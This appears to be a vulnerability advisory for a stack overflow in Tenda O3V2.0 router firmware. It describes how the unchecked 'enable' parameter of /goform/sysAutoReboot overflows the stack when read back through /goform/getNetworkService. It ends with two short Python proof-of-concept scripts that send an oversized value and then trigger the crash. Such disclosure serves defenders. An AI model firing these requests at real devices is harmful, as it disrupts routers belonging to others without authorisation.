 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `enable` POST parameter accepted by `/goform/sysAutoReboot` is written to the configuration key `sys.schedulereboot.enable` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getNetworkService`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `sys.schedulereboot.enable`.

## Technical details

- The `sysAutoReboot` endpoint accepts a POST parameter `enable` and calls `SetValue("sys.schedulereboot.enable", Var)` without enforcing a maximum length.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_114103.png)

- The `getNetworkService` endpoint retrieves the `enable` parameter using `GetValue("sys.schedulereboot.enable", v50)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_114328.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `sys.schedulereboot.enable` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/sysAutoReboot"
payload =  b"a"*1000

data = {"enable":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getNetworkService"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)